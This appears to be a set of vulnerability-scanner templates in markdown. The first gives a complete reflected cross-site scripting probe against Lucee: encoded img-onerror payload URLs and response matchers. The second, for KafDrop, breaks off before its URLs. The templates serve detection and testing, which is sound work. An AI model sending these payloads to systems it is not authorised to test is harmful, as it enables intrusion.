 # Lucee - Cross-Site Scripting

## Description

- Lucee contains a cross-site scripting vulnerability. It allows remote attackers to inject arbitrary JavaScript into the responses returned by the server.
- severity - high
- tags - lucee,xss,unauth

## Requests

- Method - GET

### URL

- {{BaseURL}}/lucees3ezf%3cimg%20src%3da%20onerror%3dalert('{{randstr}}')%3elujb7/admin/imgProcess.cfm
- {{BaseURL}}/lucee/lucees3ezf%3cimg%20src%3da%20onerror%3dalert('{{randstr}}')%3elujb7/admin/imgProcess.cfm

### Matchers

**Type - word**

- words
  1. \<img src=a onerror=alert('{{randstr}}')>
  2. MissingIncludeException
  3. lucee-err
- part - body
- condition - and

---

# KafDrop - Cross-Site Scripting

## Description

- KafDrop contains a cross-site scripting vulnerability. It allows remote unauthenticated attackers to inject arbitrary HTML and/or JavaScript into the response returned by the server.
- severity - high
- tags - kafdrop,xss

## Requests

- Method - GET

### URL
